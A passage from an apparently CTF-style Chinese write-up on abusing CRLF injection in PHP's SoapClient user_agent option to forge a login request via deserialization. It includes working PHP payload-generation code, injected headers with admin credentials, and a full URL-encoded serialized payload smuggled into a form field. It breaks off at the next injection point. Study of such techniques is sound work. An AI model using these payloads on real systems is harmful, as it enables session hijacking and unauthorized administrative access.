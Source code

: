 因为请求体一定在可注入点的后面，所以我们不需要担心。无论CRLF的注入点在哪，我们都可以轻松的利用CRLF向下覆盖，重写请求体。

这里的关键是在请求头，因为在HTTP协议中，当请求头中有相同的键值的时候，是一第个为准的。

比如这样的一个请求：

```
POST /2.php?action=login HTTP/1.1
Host: 127.0.0.1:9999
Connection: Keep-Alive
User-Agent: test
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://127.0.0.1/
Content-Type: application/x-www-form-urlencode
Content-Length: 398
```

服务器解析时识别的`Content-Type`为`text/xml; charset=utf-8`,但是我们想post表单，要要求它为`application/x-www-form-urlencode`

所以注意看两个请求的注入点位置，显然`uri`的CRLF注入点在`Content-Type`的后面，没把法修改`Content-Type`,利用起来有点难度，所以先讲 `user_agent`这个注入点。

#### 利用user_agent这个CRLF注入点

下面是利用代码,生成注入数据：

```php
$location = "http://127.0.0.1/index.php?action=login";
$uri = "http://127.0.0.1/";
$event = new SoapClient(null,array('user_agent'=>"test\r\nCookie: PHPSESSID=08jl0ttu86a5jgda8cnhjtvq32\r\nContent-Type: application/
x-www-form-urlencoded\r\nContent-Length: 45\r\n\r\nusername=admin&password=nu1ladmin&code=470837\r\n\r\n\r\n",'location'=>$location,
'uri'=>$uri));
$c = (serialize($event));
var_dump(urlencode($c));
```

这里的`PHPSESSID`换成一个还没有登录过的session，验证码换成自己的，注入这条数据之后：

![http://pic.wonderkun.cc/uploads/2018/03/4.png](http://pic.wonderkun.cc/uploads/2018/03/4.png)

```
signature=username`,`O%3A10%3A%22SoapClient%22%3A4%3A%7Bs%3A3%3A%22uri%22%3Bs%3A17%3A%22http%3A%2F%2F127.0.0.1%2F%22%3Bs%3A8%3A%22location%22%3Bs%3A39%3A%22http%3A%2F%2F127.0.0.1%2Findex.php%3Faction%3Dlogin%22%3Bs%3A11%3A%22_user_agent%22%3Bs%3A174%3A%22test%0D%0ACookie%3A+PHPSESSID%3D08jl0ttu86a5jgda8cnhjtvq32%0D%0AContent-Type%3A+application%2Fx-www-form-urlencoded%0D%0AContent-Length%3A+45%0D%0A%0D%0Ausername%3Dadmin%26password%3Dnu1ladmin%26code%3D164760%0D%0A%0D%0A%0D%0A%22%3Bs%3A13%3A%22_soap_version%22%3Bi%3A1%3B%7D`)#&mood=0
```



然后再用刚才的那个`session`访问一下,访问一下首页，就拿到管理员权限了。

#### 利用uri这个CRLF注入点
